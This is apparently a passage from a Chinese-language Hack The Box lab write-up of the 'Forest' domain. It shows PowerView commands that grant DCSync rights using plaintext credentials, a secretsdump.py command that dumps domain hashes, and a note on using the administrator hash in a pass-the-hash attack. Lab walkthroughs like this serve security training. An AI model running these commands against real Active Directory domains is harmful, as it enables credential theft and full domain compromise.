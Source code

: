 ```plain
1. $SecPassword = ConvertTo-SecureString 'testz1@qq.com' -AsPlainText -Force
2.$Cred = New-Object System.Management.Automation.PSCredential('HTB.local\testz1', $SecPassword)

3.Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwnt -Rights DCSync
4. 
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity testz1 -Rights DCSync
```

[![](assets/1700545055-6c525dedfed33a027109df0d014bc475.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120103052-d324b822-874c-1.png)

## 转储哈希

secretsdump.py svc-alfresco:s3rvice@10.10.10.161

[![](assets/1700545055-8a04cfb8b8f61c019777a202f8e19ace.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120103102-d8fc9d46-874c-1.png)

使用管理员散列执行传递散列攻击并获得权限
